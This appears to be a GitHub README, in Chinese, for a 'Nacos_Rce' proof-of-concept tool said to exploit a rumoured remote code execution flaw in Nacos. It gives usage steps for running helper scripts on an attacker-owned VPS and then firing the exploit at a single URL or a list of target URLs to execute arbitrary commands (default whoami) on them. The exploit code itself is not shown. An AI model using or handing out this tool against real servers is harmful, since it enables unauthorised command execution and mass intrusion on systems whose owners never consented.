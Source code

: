 # Nacos_Rce
网传nacos_rce漏洞poc



![image](https://github.com/user-attachments/assets/cf7e3ac3-bd47-462c-accc-4fc21b8a731f)



</br>

# 使用方法
---

### 1. 将config.py和service.py放在自己的vps上并运行

```python service.py```

![image](https://github.com/user-attachments/assets/e7e8b68c-7147-4ca3-a5bf-07b89620575f)

![image](https://github.com/user-attachments/assets/a3feb618-8255-4b4a-9b0a-ae575e7bceb9)


### 2. 单url验证
```python .\Nacos_Rce.py -t vps的ip地址 -p 5000 -u http://xxx.xxx.xxx -c whoami```

**-c whoami 可以不写，默认为whoami,可以自定义命令**

![image](https://github.com/user-attachments/assets/17683bc9-5851-4222-9df7-6b71a8ddd591)
![image](https://github.com/user-attachments/assets/66c7cba3-489a-4bf4-876d-f2e375a82b44)



### 3. 多url验证
```python .\Nacos_Rce.py -t vps的ip地址 -p 5000 -f ./url.txt -c whoami```

**-c whoami 可以不写，默认为whoami,可以自定义命令**

![image](https://github.com/user-attachments/assets/7eecdf9e-7c74-4115-afbc-5af9362f4db9)






